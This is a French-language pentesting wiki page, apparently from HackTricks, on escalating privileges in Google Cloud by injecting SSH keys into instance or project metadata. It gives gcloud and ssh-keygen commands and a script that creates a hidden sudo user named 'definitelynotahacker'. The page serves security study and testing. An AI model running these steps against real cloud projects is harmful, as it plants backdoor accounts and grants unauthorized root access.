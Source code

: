 # GCP - Ajouter des métadonnées SSH personnalisées

{{#include ../../../../banners/hacktricks-training.md}}

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance pourrait entraîner **des risques de sécurité significatifs si un attaquant obtient les autorisations nécessaires**.

### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, **les systèmes Linux** exécutent souvent des scripts à partir de l'[environnement invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour **des mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée dans le fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement en créant un nouvel utilisateur avec des privilèges `sudo`**, selon le format de la clé. Et l'attaquant pourra compromettre l'hôte.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**

- Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie sera sous `metadata`, spécifiquement la clé `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.

2. **Préparer un fichier texte pour les métadonnées de la clé SSH :**
- Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour préserver les clés existantes tout en ajoutant de nouvelles.
3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**

- Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.

4. **Mettre à jour les métadonnées de la clé SSH de l'instance :**

- Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**

- Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant au shell dans le contexte de l'utilisateur cible (`alice` dans cet exemple).

```bash
ssh -i ./key alice@localhost
sudo id
```

### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau qui se verra attribuer des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir l'accès SSH à plusieurs machines virtuelles (VM) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à toute instance au sein du projet qui n'a pas explicitement bloqué les clés SSH à l'échelle du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**

- Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH à partir de `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VM du projet, sauf si une VM a l'option "Bloquer les clés SSH à l'échelle du projet" activée.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH dans les instances en utilisant des clés à l'échelle du projet :**
- Avec des clés SSH à l'échelle du projet en place, vous pouvez SSH dans n'importe quelle instance au sein du projet. Les instances qui ne bloquent pas les clés à l'échelle du projet accepteront la clé SSH, accordant l'accès.
- Une méthode directe pour SSH dans une instance consiste à utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter d'accéder.

## Références

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
